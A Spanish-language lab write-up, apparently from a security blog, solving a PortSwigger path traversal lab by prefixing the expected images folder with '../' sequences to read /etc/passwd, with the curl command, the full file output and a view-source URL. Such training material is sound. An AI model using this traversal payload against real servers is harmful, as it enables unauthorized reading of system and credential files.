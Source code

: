 ```yaml
---
title: "File path traversal, validation of start of path"
description: "Laboratorio de Portswigger sobre Path Traversal"
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Path Traversal
tags:
  - Portswigger Labs
  - Path Traversal
  - File path traversal, validation of start of path
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `path traversal` en la `visualización` de `imágenes` de `productos`. La aplicación transmite la `ruta completa` del `archivo` a través de un `parámetro` en la `solicitud` y valida que la ruta proporcionada `comience` con la `carpeta` esperada. Para `resolver` el `laboratorio`, hay que `obtener` el contenido del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Path-Traversal-Lab-5/image_1.png)

Si hacemos `Ctrl + U` vemos como se están `cargando` las `imágenes`

![](/assets/img/Path-Traversal-Lab-5/image_2.png)

Probamos un `directory path traversal`

```
# curl 'https://0a2a00ee047247f9d80065cb0029003c.web-security-academy.net/image?filename=/var/www/images/../../../../../../../etc/passwd'  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Si lo queremos hacerlo desde la `web` debemos poner `view-source://`

```
view-source:https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=/var/www/images/../../../../../../../etc/passwd
```

![](/assets/img/Path-Traversal-Lab-5/image_3.png)

